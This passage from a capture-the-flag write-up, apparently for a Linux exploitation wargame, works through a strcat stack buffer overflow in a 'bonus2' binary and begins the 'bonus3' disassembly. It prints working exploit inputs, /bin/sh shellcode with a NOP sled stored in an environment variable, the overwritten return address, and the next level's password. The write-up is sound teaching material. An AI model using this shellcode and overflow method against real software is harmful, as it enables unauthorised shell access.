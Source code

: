 ```clike=
            if (memcmp(lang_str, "fi", 2) == 0)
                language = 1;
            else if (memcmp(lang_str, "nl", 2) == 0)
                language = 2;
            greetuser(buf);
            return 0;
        }
    }
    else 
        return 1;
}
```
I noticed at the getuser function, the size of the greeting buffer might not be enough to fit the result of strcat due to the **size of buffer is 72** but the second argument of the strcat can go up to 76 bytes. Combined with the greeting string, greeting buffer will surely overflow. As we can see, below is the memory layout after strcat is called in greetuser. our buffer ends at `0xbffff626` and the ebp starts at `0xbffff628`.
![image](https://hackmd.io/_uploads/B1pvO0G8a.png)

As you can see, we did actually overwrite the saved EIP by extending the input. However, this is the max we are able to go for now since the `buf` at main is well `memset'd` and we cant change that. However, we are able to change the lang env var in order to extend our buffer.
![image](https://hackmd.io/_uploads/r1w4jRGLp.png)

As you can seem after I do `export LANG=nl` and adjusted the input to `python -c "print 'B' * 40"` `python -c "print 'A' * 28 + 'CCCC'"` I am able to overwrite the return address of `greetuser` to `CCCC`
![image](https://hackmd.io/_uploads/Syd_nCfIp.png)

Now to generate the payload, I exported the shellcode with a NOP sled as an environment variable 
```
 export SHELLCODE=`python -c "print '\x90' * 4200 + '\x31\xd2\x31\xc9\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x31\xc0\xb0\x0b\x89\xe3\x83\xe4\xf0\xcd\x80'"`
```

Now I need to determine the address of the variable when I launch my program, I went to GDB and inspected the address and got `0xbfffe872`

![image](https://hackmd.io/_uploads/SykSAkXLa.png)

I changed my inputs to `python -c "print 'B' * 40"` `python -c "print 'A' * 23 + '\xbf\xff\xe8\x82'[::-1]"` and I got a shell. The password for the next user is `71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587`

![image](https://hackmd.io/_uploads/SyeiJg7Ua.png)

## bonus3
Below is the objdump for bonus3

```
080484f4 <main>:
 80484f4:       55                      push   ebp
 80484f5:       89 e5                   mov    ebp,esp
 80484f7:       57                      push   edi
 80484f8:       53                      push   ebx
 80484f9:       83 e4 f0                and    esp,0xfffffff0
 80484fc:       81 ec a0 00 00 00       sub    esp,0xa0
 8048502:       ba f0 86 04 08          mov    edx,0x80486f0
 8048507:       b8 f2 86 04 08          mov    eax,0x80486f2
 804850c:       89 54 24 04             mov    DWORD PTR [esp+0x4],edx
 8048510:       89 04 24                mov    DWORD PTR [esp],eax
 8048513:       e8 f8 fe ff ff          call   8048410 <fopen@plt>
 8048518:       89 84 24 9c 00 00 00    mov    DWORD PTR [esp+0x9c],eax
```